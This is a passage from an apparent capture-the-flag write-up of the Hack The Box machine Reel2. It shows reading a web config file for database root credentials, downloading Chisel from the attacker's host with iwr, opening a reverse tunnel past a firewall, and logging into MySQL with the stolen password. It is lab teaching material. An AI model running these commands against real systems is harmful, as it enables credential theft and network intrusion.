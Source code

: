 ![](/img/image-20210315071154087.png)

On Reel2, I can get that same file:



    [10.10.10.210]: PS>Check-File C:\Programdata\..\xampp\htdocs\social\config\connect.php
    <?php                   
    $servername = "localhost";                                         
    $username = "root";                                                
    $password = "Gregswd123FAEytjty"; 
    $dbname = "wallstant";
    ...[snip]...



### Connecting to DB

As I didn't have access to 3306 in my original `nmap` scan but it is
listening according to the `netstat`, the firewall must be blocking
access. Back in my full shell as k.svensson, I'll upload
[Chisel](https://github.com/jpillora/chisel) (see my [post on
Chisel](/tunneling-with-chisel-and-ssf-update.md) for more
details):



    PS C:\programdata> iwr http://10.10.14.10/chisel_1.7.6_windows_amd64 -outfile c.exe



I'll start the server, and then run the client from Reel2:



    PS C:\programdata> .\c.exe client 10.10.14.10:8000 R:3306:localhost:3306
    .\c.exe client 10.10.14.10:8000 R:3306:localhost:3306
    2021/03/15 12:26:07 client: Connecting to ws://10.10.14.10:8000
    2021/03/15 12:26:07 client: Connected (Latency 20.4784ms)



At the server the connection shows up:



    oxdf@parrot$ ./chisel_1.7.6_linux_amd64 server -p 8000 --reverse
    2021/03/15 07:23:21 server: Reverse tunnelling enabled
    2021/03/15 07:23:21 server: Fingerprint FHyXk/mKppuP4EyXIzlk5cCI/H4TQOELm7IpiriOTes=
    2021/03/15 07:23:21 server: Listening on http://0.0.0.0:8000
    2021/03/15 07:23:28 server: session#1: tun: proxy#R:3306=>localhost:3306: Listening



Now I can connect with the creds from the config to 127.0.0.1:3306
(`apt install mariadb-client` on Parrot to get the `mysql` client):



    oxdf@parrot$ mysql -h 127.0.0.1 -u root -pGregswd123FAEytjty wallstant
    Reading table information for completion of table and column names
    You can turn off this feature to get a quicker startup with -A
